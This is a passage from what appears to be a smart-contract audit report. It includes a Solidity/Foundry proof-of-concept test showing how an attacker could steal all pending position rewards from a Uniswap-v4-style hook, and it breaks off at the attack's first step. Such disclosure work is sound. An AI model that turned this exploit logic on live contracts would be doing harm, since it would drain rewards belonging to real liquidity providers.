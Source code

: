 ```solidity
    // Then, when crossing the next initialized tick (10), it tries to decrement liquidity net by 10e21 which reverts.
    vm.expectRevert();
    router.swap(key, true, -1000e18, int24(-10).getSqrtPriceAtTick());
}
```

3. This test demonstrates how all rewards can be stolen by an attacker:

```solidity
struct AttackConfig {
    uint128 INIT_LIQUIDITY;
    uint256 LOOPS_TO_BUILD_UP_REWARDS;
    uint256 PRIORITY_FEE_TO_BUILD_UP_REWARDS;
    uint256 ATTACKER_PRIORITY_FEE;
    int24 INIT_T0;
    int24 INIT_T1;
    int24 START_TICK;
}

function test_cyfrin_stealAllRewards() public {
    AttackConfig memory cfg = AttackConfig({
        INIT_LIQUIDITY: 1e22,
        LOOPS_TO_BUILD_UP_REWARDS: 5,
        PRIORITY_FEE_TO_BUILD_UP_REWARDS: 1000 gwei,
        ATTACKER_PRIORITY_FEE: 5 gwei, // As low as will win TOB because JIT tax must be paid
        INIT_T0: 0,
        INIT_T1: 50,
        START_TICK: 17
    });

    PoolKey memory key = initializePool(address(token), 10, cfg.START_TICK);
    PoolId id = key.toId();

    addLiquidity(key, cfg.INIT_T0, cfg.INIT_T1, cfg.INIT_LIQUIDITY);

    /* Swap back and forth to build up rewards */
    setPriorityFee(cfg.PRIORITY_FEE_TO_BUILD_UP_REWARDS);
    for (uint256 i = 0; i < cfg.LOOPS_TO_BUILD_UP_REWARDS; i++) {
        bumpBlock();
        router.swap(key, true, -10_000e18, int24(cfg.INIT_T0 + 1).getSqrtPriceAtTick());
        bumpBlock();
        router.swap(key, false, -10_000e18, int24(cfg.START_TICK).getSqrtPriceAtTick());
    }

    console2.log("\n\n\n *** ATTACK STARTS ***\n\n\n");

    uint256 rewardsToSteal = angstrom.getPendingPositionRewards(
        key,
        address(router),
        cfg.INIT_T0,
        cfg.INIT_T1,
        bytes32(0));

    uint256 ethBefore = address(router).balance;
    uint256 tokBefore = token.balanceOf(address(router));

    int24 attackTickUpper = (cfg.START_TICK + 10)/10 * 10;
    int24 attackTickLower = attackTickUpper - 10;
    assertLt(attackTickUpper, cfg.INIT_T1, "attackTickUpper >= INIT_T1");
    assertGt(attackTickLower, cfg.INIT_T0, "attackTickLower <= INIT_T0");

    /* Step 1: Attacker moves price to next tick boundary */

```